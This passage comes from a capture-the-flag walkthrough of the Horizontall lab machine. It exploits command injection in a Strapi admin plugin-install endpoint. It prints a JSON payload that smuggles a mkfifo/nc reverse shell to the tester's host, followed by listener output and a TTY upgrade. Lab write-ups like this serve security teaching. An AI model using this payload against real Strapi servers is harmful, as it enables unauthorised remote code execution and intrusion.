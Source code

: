 
That seems easier in Burp. I’ll visit `http://api-
prod.horizontall.htb/admin/plugins/install`, and it returns a page that’s
kinda blank:

![image-20210802140217813](https://0xdfimages.gitlab.io/img/image-20210802140217813.png)

I think this endpoint is really only expecting POSTs. I’ll find that request,
send it to Repeater, and right-click and change request method. I’ll need to
change the `Content-Type` header, and make sure to add (if it’s not there) a
`Authorization` header, which I can find looking through the requests I’ve
made already. It looks like this:

[![image-20210802140610705](https://0xdfimages.gitlab.io/img/image-20210802140610705.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20210802140610705.png)

I’ll start `tcpdump` listening for ICMP traffic, and when I hit send, it hangs
for a second, and then returns. At `tcpdump`:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:05:06.215442 IP 10.10.10.125 > 10.10.14.6: ICMP echo request, id 2715, seq 1, length 64
    14:05:06.215471 IP 10.10.14.6 > 10.10.10.125: ICMP echo reply, id 2715, seq 1, length 64
    

That’s RCE. I’ll look at how they patched this in Beyond Root.

#### Shell

To make that return a reverse shell, I’ll use the reverse shell payload used
in the blog post:

    
    
    {"plugin": "documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f)", "port": "1337"}
    

On sending, with `nc` listening on 443, it returns a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.125] 46108
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
    

I’ll upgrade the shell using the `script` trick:

    
    
    $ script /dev/null -c bash
    Script started, file is /dev/null
    strapi@horizontall:~/myapi$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    strapi@horizontall:~/myapi$ 
    
